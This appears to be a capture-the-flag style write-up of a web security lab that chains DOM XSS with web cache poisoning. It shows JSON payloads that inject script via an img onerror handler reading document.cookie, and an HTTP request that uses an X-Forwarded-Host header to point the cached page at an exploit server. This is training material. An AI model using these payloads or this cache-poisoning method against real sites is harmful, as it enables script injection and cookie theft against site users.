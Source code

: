 ##### DOM XSS

First tried with this but it didn't trigger.
```json
{
    "country":"</div><script>alert(document.cookie)</script><div>Warp"
}
```

Then tried with `img` tag and this worked.
```json
{
    "country":"<img src=1 onerror=alert(document.cookie) />Warp"
}
```

Remember to resend the modified request to Home to re-poison the cache.

Now remove cache buster and send again:

```http
GET / HTTP/2
Host: my.web-security-academy.net
...
X-Forwarded-Host: exploit-my.exploit-server.net


```

Remember admin checks the page every minute or so. But the cache expires every 30 seconds.
Re-poison the cache until the lab is solved.


##### What's different on this lab from other?
It has a Free Delivery (toLocation) on the top left corner.
